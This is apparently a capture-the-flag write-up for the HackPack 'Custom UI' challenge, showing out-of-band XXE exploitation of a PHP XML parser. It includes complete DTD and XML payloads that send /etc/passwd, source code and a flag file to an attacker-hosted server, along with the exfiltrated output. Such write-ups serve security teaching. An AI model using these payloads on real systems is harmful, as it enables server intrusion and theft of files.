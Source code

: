 ```yaml
---
title: "HackPack: Custom UI"
categories:
  - HackPack
tags:
  - HackPack
---
```



Visiting https://custom-ui.cha.hackpack.club gives us a user interface, where we can enter RGB values for a button, along with its text. Catching the request and setting "xdata='" in the POST request gives us the following error:

```
DOMDocument::loadXML(): Start tag expected, '&lt;' not found in Entity, line: 1 in <b>/var/www/html/index.php</b> on line <b>12<
```

Looks like we have an XXE vuln!

Messing around with the vuln shows us that we can't see anything loaded with a file:// wrapper, but we can use an OOB technique:

evil.dtd (hosted on attacking machine):

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"><!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://54.234.159.90/evil2.dtd?%data;'>">
```

We'll need to form a valid XML request and base64 encode it, so the newlines are kept intact:

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://54.234.159.90/evil.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```

Now, we send the base64 encoded payload in the xdata= section of the post request with burp, and we receive a base64 encoded payload back on our attacking machine! Decoding the base64 gives us:

```
root:x:0:0:root:/root:/bin/bash                                                                                      
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin                
sys:x:3:3:sys:/dev:/usr/sbin/nologin                
sync:x:4:65534:sync:/bin:/bin/sync                                                                                   
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin                                                                      
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin                                                                         
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin                                                                    
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin                                                                  
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin                                                                           
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin                                                                 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin                                                                 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin                                                        
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin                                                                     
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin                                    
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin                                                           
_apt:x:100:65534::/nonexistent:/bin/false  
```

Next, we'll check to see if there's any hidden info in the index.php page:

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/index.php"><!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://54.234.159.90/evil.dtd?%data;'>">
```

Decoding the response gives us the following interesting section:

```
  <?php 
    if ($debug == "true") {
      echo "<!-- TODO: Delete flag.txt from /etc/ -->";
    }
  ?>
```

We'll form one final request to grab the flag:

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/flag.txt"><!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://54.234.159.90/evil.dtd?%data;'>">
```

We get:

**flag{d1d_y0u_kn0w_th@t_xml_can_run_code?}**
